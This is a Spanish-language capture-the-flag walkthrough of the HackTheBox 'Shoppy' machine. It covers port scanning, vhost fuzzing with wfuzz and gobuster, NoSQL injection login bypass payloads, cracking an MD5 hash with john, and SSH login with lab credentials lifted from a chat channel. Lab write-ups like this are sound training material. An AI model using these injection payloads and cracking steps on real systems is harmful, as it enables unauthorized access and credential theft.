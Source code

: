 # Shoppy HTB


Primero que nada nos damos cuenta que tiene 3 puerto abiertos

```
nmap -sSV --open -vvv IP
nmap -sC -p 22,80,9093 IP
```

Esto re direcciona a shoppy.htb lo cual nos da indicios de que podria utilizar vhosting

# Fuzzing

```
wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://shoppy.htb/FUZZ 
```


# Vhost Discovery

Virtual hosting es la capacidad de tener varios subdominos ( *.example.com ) en un mismo servidor 

>El virtualhost, o servidor virtual, es una forma de alojamiento web que permite que varias páginas web puedan funcionar en una misma máquina. Hay dos tipos de virtualhost:

Los que se basan en direcciones IP, donde cada página web tendrá una IP diferente.
***Los que se basan en nombres de dominio, donde una sola dirección IP funcionan varias páginas web.***

Aunque el navegador tendrá que diferenciar el tipo de virtualhost a la hora de gestionar la petición, la elección de una u otra no tiene ningún efecto para el usuario.

## WFUZZ

Para encontrar subdominios cuando sospechamos que se esta usando esta tecnica se fuzzea la header Host en busca de un resultado valido lo que indica un subdominio

```

wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/ 

```

## Gobuster

```
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u http://shoppy.htb 
Funciona tambien asi 
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u shoppy.htb
Tambien asi solo lee bien el output
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb 
```

Encontramos un logging

# No SQL Inyection

De alguna u otra manera ( la cual no entiendo aun) nos dimos cuenta que es una base de datos No SQL MongoDB intentamos unos payloads sencillos.

```
admin'||'1==1
admin'||'1=1
```

Y cualquiera de esos jala. Entramos


# Hash

Ya dentro pues si estas con el usuario admin lo mas logico es que buscaras ese no¿?

```
EL password del usuario admin
hash-identifier
john --format=raw-md5 -w $(locate rockyou.txt)  hashes

admin
emerald 

```

Pero que crees si vuelves a probar una inyeccion te manda no solo el hash de admin si no un usuario josh

```
josh 

remembermethisway

```

## Intrucion

Entramos con el usuario josh al subdominio que encontramos

> http://mattermost.shoppy.htb/shoppy/channels/deploy-machine

Ahi nos damos cuenta que existe un user y pass iniciamos sesion ssh.

```
username: jaeger
password: Sh0ppyBest@pp!
```





















































